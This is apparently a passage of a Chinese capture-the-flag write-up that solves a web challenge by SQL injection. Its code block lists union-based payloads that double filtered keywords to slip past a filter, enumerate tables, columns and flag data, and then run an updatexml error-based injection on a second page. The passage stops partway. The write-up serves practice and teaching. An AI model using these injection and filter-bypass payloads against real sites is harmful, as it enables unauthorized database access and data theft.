 ![1555668310355](1555668310355.png)

之后尝试各种绕过。发现可以双写绕过

```
//查询列数
http://123.206.87.240:9004/1ndex.php?id=0' anandd 1=2 uniunionon  selselectect  1,2 %23  

//数据库名
http://123.206.87.240:9004/1ndex.php?id=0'  uniunionon  selselectect  1,database() %23

//爆表明
http://123.206.87.240:9004/1ndex.php?id=0' anandd 1=2 uniunionon  selselectect  1,group_concat(table_name) from infoorrmation_schema.tables where table_schema=database() %23
//  结果flag hint 

//列
http://123.206.87.240:9004/1ndex.php?id=0' anandd 1=2 uniunionon  selselectect 1, group_concat(column_name) from infoorrmation_schema.columns where table_schema=database() anandd table_name='flag1' %23
//结果 flag address

http://123.206.87.240:9004/1ndex.php?id=0' anandd 1=2 ununionion seselectlect 1, group_concat(flag1，) from flag1 %23
//usOwycTju+FTUUzXosjr  emmmm提交错误

http://123.206.87.240:9004/1ndex.php?id=0' anandd 1=2 uniunionon  selselectect 1, group_concat(address) from flag1 %23
//     ./Once_More.php

****************进入到另一个页面********

//尝试注入  发现有报错   即尝试报错注入updatexml
http://123.206.87.240:9004/Once_More.php?id=3%27 and updatexml(1,concat('~',(select group_concat(table_name) from information_schema.tables where table_schema=database()),'~'),3) %23
//class,flag2

//列
```